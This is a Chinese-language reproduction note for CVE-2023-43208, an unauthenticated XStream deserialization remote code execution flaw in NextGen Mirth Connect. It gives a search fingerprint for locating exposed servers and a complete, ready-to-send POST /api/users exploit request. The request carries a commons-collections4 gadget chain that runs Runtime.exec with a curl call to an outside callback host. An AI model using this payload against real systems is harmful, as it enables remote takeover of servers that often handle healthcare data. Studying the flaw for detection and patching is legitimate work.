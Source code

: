 # NextGen Mirth Connect XStream存在反序列化远程代码执行漏洞

# 一、漏洞简介
NextGen Mirth Connect XStream反序列化远程代码执行漏洞(CVE-2023-43208)，未经身份验证的远程攻击者可利用此漏洞写入后门文件，执行任意命令，导致服务器被控。

# 二、影响版本
+ `title="Mirth Connect Administrator"`
+ 特征

![1729961516962-8e84d6cc-c576-4699-a794-37e8bd889d3f.png](./img/Ahlw4YbNSt6U5uWR/1729961516962-8e84d6cc-c576-4699-a794-37e8bd889d3f-547025.png)

# 三、漏洞复现
```plain
POST /api/users HTTP/1.1
Host: 
X-Requested-With: OpenAPI
Content-Type: application/xml

<sorted-set>
	<string>abcd</string>
		<dynamic-proxy>
			<interface>java.lang.Comparable</interface>
			<handler class="org.apache.commons.lang3.event.EventUtils$EventBindingInvocationHandler">
			  <target class="org.apache.commons.collections4.functors.ChainedTransformer">
				<iTransformers>
				  <org.apache.commons.collections4.functors.ConstantTransformer>
					<iConstant class="java-class">java.lang.Runtime</iConstant>
				  </org.apache.commons.collections4.functors.ConstantTransformer>
				  <org.apache.commons.collections4.functors.InvokerTransformer>
					<iMethodName>getMethod</iMethodName>
					<iParamTypes>
					  <java-class>java.lang.String</java-class>
					  <java-class>[Ljava.lang.Class;</java-class>
					</iParamTypes>
					<iArgs>
					  <string>getRuntime</string>
					  <java-class-array/>
					</iArgs>
				  </org.apache.commons.collections4.functors.InvokerTransformer>
				  <org.apache.commons.collections4.functors.InvokerTransformer>
					<iMethodName>invoke</iMethodName>
					<iParamTypes>
					  <java-class>java.lang.Object</java-class>
					  <java-class>[Ljava.lang.Object;</java-class>
					</iParamTypes>
					<iArgs>
					  <null/>
					  <object-array/>
					</iArgs>
				  </org.apache.commons.collections4.functors.InvokerTransformer>
				  <org.apache.commons.collections4.functors.InvokerTransformer>
					<iMethodName>exec</iMethodName>
					<iParamTypes>
					  <java-class>java.lang.String</java-class>
					</iParamTypes>
					<iArgs>
					  <string>curl http://jveuewgzdi.iyhc.eu.org</string>
					</iArgs>
				  </org.apache.commons.collections4.functors.InvokerTransformer>
				</iTransformers>
			  </target>
			  <methodName>transform</methodName>
			  <eventTypes>
				<string>compareTo</string>
			  </eventTypes>
		</handler>
	</dynamic-proxy>
</sorted-set>
```



![1729961537056-5c897bff-09cb-489d-bb3e-72cb9f1812f0.png](./img/Ahlw4YbNSt6U5uWR/1729961537056-5c897bff-09cb-489d-bb3e-72cb9f1812f0-384661.png)



> 更新: 2024-11-27 10:01:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lgpb79rrbo0w37b0>